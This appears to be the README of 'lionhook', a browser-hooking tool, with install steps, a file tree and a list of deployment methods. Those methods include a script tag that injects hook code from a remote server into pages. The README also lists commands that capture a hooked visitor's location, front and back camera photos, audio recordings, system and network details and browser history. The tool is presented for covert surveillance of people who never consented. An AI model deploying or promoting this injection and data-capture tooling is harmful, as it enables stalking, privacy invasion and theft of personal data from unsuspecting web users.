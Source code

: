 🪟 Windows

1. Install Python from python.org
2. Install OpenSSL from slproweb.com
3. Run install.sh in Git Bash or WSL
4. Use start.bat to launch

🍎 macOS

```bash
brew install python3 openssl
./install.sh
./start.sh
```

🔧 Advanced Features

Hook Deployment Methods

1. Script Tag Injection

```html
<script src="https://your-server.com/hook/YOUR_HOOK_ID"></script>
```

2. Demo Page

```html
https://your-server.com/demo/YOUR_HOOK_ID
```

3. Direct Hook

```html
https://your-server.com/hook/YOUR_HOOK_ID
```

Available Commands

1· 📍 Get Location - GPS and IP-based location

2· 📷 Front/Back Camera - Photo capture

3· 🎤 Record Audio - 10-second recording

4· 🔋 Battery Info - Battery status and level

5· 📡 Network Info - Connection details

6· 💻 System Info - Device specifications

7· 📚 Browser History - Navigation data

🗂️ File Structure

```
lionhook/
├── install.sh
├── lionhook.db
├── main.py
├── requirements.txt
├── static
│   ├── script.js
│  └── style.css
├── data
│   └── devices
└── templates
    ├── dashboard.html
    ├── demo.html
    ├── device_gallery.html
    ├── gallery.html
    ├── hook.js
    ├── index.html
    ├── login.html
    └── settings.html
```